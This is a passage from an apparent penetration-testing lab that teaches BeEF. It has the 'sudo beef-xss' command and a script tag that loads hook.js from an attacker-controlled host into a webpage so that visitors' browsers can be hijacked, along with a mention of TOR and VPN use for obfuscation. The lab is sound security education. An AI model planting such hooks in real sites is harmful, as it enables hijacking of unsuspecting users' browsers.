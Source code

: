    - You will use the BeEF framework for your research during your penetration tests.


We'll need to complete the following tasks:

- Edit the `.html` file and add malicious JavaScript to the webpage that we'll use in our attack.

- Visit the infected webpage from a host on the network (the victim).

- Execute a BeEF hook, then perform various client-side attacks against the victim’s web browser.

- Recommend three mitigation strategies that defend against BeEF hooks and malicious JavaScript.

#### BeEF Demo

This demo requires the Kali Linux VM which will both act as the attacker and the victim.

1. Acting as the attacker, open a terminal in your Kali VM and initiate BeEF by running: 

   - `sudo beef-xss`
      
      - **Note**: If you receive an pop-up error stating "Failed to execute default Web Browser," click **Close**.
      
   The output contains the malicious JavaScript that you will use for the attack.
         
   - We will use this script in the hook line:
      
     `<script src=”http://127.0.0.1:3000/hook.js” type=”text/javascript”></script>`
      
   We will modify the IP portion of the script to match that of our Kali machine (the attacker). The attacker's computer will act as the BeEF controller.
         
   - Attackers are likely to also use other tools, such as TOR and a VPN, to provide further obfuscation and repudiation.
   
   - Copy the line `<script src="http://127.0.0.1:3000/hook.js"></script>`
   
      ![BeEF Start](Images/BeEF_Start.png)
      
   
2. Open a new terminal window and start the Apache2 web server. We'll use the Apache2 service to host our malicious webpage.
   